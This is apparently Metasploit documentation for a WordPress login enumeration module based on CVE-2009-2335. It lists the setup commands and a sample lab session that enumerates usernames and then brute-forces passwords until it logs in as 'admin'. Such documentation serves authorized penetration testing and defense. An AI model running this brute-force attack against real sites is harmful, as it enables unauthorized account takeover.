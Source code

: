 ## Descriptions

This auxiliary module will brute-force a WordPress installation and first determine valid usernames and then perform a password-guessing attack. WordPress and WordPress MU before 2.8.1 exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote attackers to enumerate valid usernames. NOTE: The vendor reportedly disputes the significance of this issue, indicating that the behavior exists for "user convenience." More information can be found in [CVE-2009-2335](https://www.cvedetails.com/cve/cve-2009-2335).

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wordpress_login_enum```
2. Do: ```set URI [URI]```
3. Do: ```set PASS_FILE [password file]```
4. Do: ```set USER_FILE [username list file]```
5. Do: ```set RHOSTS [IP]```
6. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set URI /wordpress/wp-login.php
URI => /wordpress/wp-login.php
msf auxiliary(wordpress_login_enum) > set PASS_FILE /tmp/passes.txt
PASS_FILE => /tmp/passes.txt
msf auxiliary(wordpress_login_enum) > set USER_FILE /tmp/users.txt
USER_FILE => /tmp/users.txt
msf auxiliary(wordpress_login_enum) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(wordpress_login_enum) > run

[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Running User Enumeration
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'administrator'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'administrator'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'admin'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration- Username: 'admin' - is VALID
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'root'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'god'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Found 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Running Bruteforce
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Skipping all but 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:''
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'admin'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'s3cr3t'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - SUCCESSFUL login for 'admin' : 's3cr3t'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wordpress_login_enum) >
```
